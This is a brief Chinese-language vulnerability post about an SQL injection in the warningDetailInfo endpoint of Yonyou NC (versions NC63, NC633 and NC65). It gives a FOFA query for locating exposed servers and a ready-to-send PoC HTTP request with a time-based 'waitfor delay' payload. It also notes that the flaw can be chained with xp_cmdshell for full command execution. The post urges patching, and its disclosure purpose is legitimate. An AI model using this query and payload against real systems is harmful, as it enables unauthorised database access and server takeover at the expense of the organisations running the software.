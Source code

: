 ## 用友NC-warningDetailInfo接口存在SQL注入漏洞

用友NC /ebvp/[infopub](https://cn-sec.com/archives/tag/infopub)/warningDetailInfo接口存在SQL注入漏洞，攻击者通过利用SQL注入漏洞配合数据库xp_cmdshell可以执行任意命令，从而控制服务器。经过分析与研判，该漏洞利用难度低，建议尽快修复。

影响范围：NC63、NC633、NC65

## fofa

```
app="用友-UFIDA-NC"
```

## poc

```
GET /ebvp/infopub/warningDetailInfo?pageId=login&pkMessage=1'waitfor+delay+'0:0:5'-- HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
```

![用友NC warningDetailInfo接口存在SQL注入漏洞](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202405251322607.png)